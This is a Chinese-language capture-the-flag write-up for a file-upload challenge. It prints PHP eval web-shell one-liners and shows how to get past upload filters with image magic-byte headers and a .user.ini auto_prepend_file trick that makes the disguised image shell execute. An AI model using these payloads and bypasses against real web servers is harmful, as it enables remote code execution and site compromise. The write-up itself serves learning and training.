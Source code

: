 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```




##  flag



##  思路

1. 打开网页是比较明显的文件上传的题目。一般文件上传的题目，首先就制作一句话木马上传，然后查看是否返回提示信息。

2. 最普通的一句话木马,保存为php文件，然后上传，显示如下，说明后端不允许上传php文件。

   `<?php @eval($_POST('pass'))?>`

   <img src="./images/image-20201223145657037.png" alt="image-20201223145657037" style="zoom:33%;" />

3. 然后将后缀改为.jpg后再上传，结果如下，检测出<?，说明后端对上传文件有所检查，如果有<?则不允许上传。

   <img src="./images/image-20201223145956261.png" alt="image-20201223145956261" style="zoom:33%;" />

   因此可考虑换其他木马。

   `<script language="php">eval($_POST['a']);</script>`

   <img src="./images/image-20201223150237140.png" alt="image-20201223150237140" style="zoom:33%;" />

4. 此时又显示exif_imagetype:not image!

   exif_imagetype是一个判断图像类型的函数，会读取图像的第一个字节并检查其签名

   常见图片的开头几个字节如下：

   > - JPG ：FF D8 FF E0 00 10 4A 46 49 46
   > - GIF(相当于文本的GIF89a)：47 49 46 38 39 61
   > - PNG： 89 50 4E 47

   因此，在上传的木马最前面加上以上字节即可。

   <img src="./images/image-20201223151136107.png" alt="image-20201223151136107" style="zoom:33%;" />

5. 到此步，已经可以成功上传带有木马的jpg文件，但jpg文件并不能直接执行，因此要想办法能让a.jpg以某种方式执行，然后我们就可以用御剑进行连接。

6. 上传**.user.ini**文件

   ```
   GIF
   auto_prepend_file=a.jpg
   ```

   该文件的含义是当访问同文件下的任何一个文件时，都会包含a.jpg文件。

   <img src="./images/image-20201223152036109.png" alt="image-20201223152036109" style="zoom:50%;" />

   根据显示的结果，可以看到该目录下同样还有index.php，因此此时在访问index.php文件时，默认会在index.php文件的前面加上a.jpg的内容，即可利用御剑进行连接。

   ```html
   URL地址：http://1d52bb40-2953-4635-a1e0-43a09c024d11.node3.buuoj.cn
   /uploads/e2e7ec165ba05a5e1f3198caa7e22b54/index.php
   密码：pass
   ```



## 总结

- 对于文件上传的题目，应该多尝试上传几种文件。
  - 最常见的一句话木马
  - 文件后缀
  - 图片的文件头标志
- 成功上传图片马--》使用.user.ini配置文件间接执行图片马

